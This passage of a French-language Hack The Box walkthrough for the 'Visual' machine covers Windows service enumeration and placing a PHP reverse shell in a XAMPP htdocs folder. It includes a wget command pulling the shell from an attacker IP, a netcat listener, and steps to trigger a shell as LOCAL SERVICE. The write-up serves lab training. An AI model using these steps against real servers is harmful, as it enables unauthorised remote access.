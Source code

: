 ![xampp directory](/images/HTB-Visual/xampp-permissions.png)

Nous pouvons essayer d'en savoir plus sur `ApacheHTTPServer` avec
```
Get-CIMInstance -Class Win32_Service -Filter "Name='ApacheHTTPServer'" | Select-Object *
```

Voici le résultat que nous obtenons, il semble qu'il s'exécute sous `NT AUTHORITY\NLocal Service`.

![Apache HTTP Server service info](/images/HTB-Visual/AppacheHTTPServer-info-1.png)

> "Sur Windows 10, le service UPnP Device Host est configuré pour s'exécuter sans privilèges d'usurpation d'identité en tant qu'utilisateur NT AUTHORITY\LOCAL SERVICE...". En résumé, nous pouvons réaliser une escalade des privilèges via ce compte. Pour en savoir plus, cliquez [ici](https://itm4n.github.io/localservice-privileges/).

Le service s'exécute sous `NT AUTHORITY\NLocal Service`, nous devons donc accéder à ce compte. Puisque nous avons accès au répertoire xampp, nous pouvons y installer un reverse shell et y accéder via le navigateur web. Je vais dans ce répertoire et je liste son contenu.

> Pour les applications PHP, le dossier XAMPP sert de répertoire racine pour l'hébergement des fichiers web (tels que HTML, PHP, CSS, JavaScript, images, etc.) et la gestion des paramètres de configuration du serveur.

```
cd C:\Xampp\
ls
```
![xampp directory content](/images/HTB-Visual/xampp-content-1.png)

Remarquez le dossier `htdocs`.

> Avec XAMPP, le dossier `htdocs` est la racine du serveur web par défaut. Cela signifie que tous les fichiers placés dans le dossier `htdocs` seront accessibles via un navigateur web lorsque le serveur XAMPP est en cours d'exécution.

Les fichiers de l'application sont présents, comme vous pouvez le voir. Nous pouvons placer un reverse shell PHP dans le dossier `htdocs`.

![xampp htdocs directory](/images/HTB-Visual/xampp-htdocs.png)

J'ai utilisé ce [reverse shell PHP](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php).

Je lance ensuite `wget http://10.10.14.222:8000/revshell.php -o rev.php` pour le transférer sur le serveur cible.

![PHP reverse shell on the target](/images/HTB-Visual/php-reverse-shell-1.png)

Mettons en place un listener netcat avec
```
nc -nvlp 8010
```

> Utilisez le numéro de port que vous avez spécifié dans le reverse shell PHP.

Retournez à votre navigateur et allez à `http://<adresse IP cible>/rev.php`, revenez à votre listener et vous devriez avoir un shell avec l'utilisateur `nt authority\local service`.

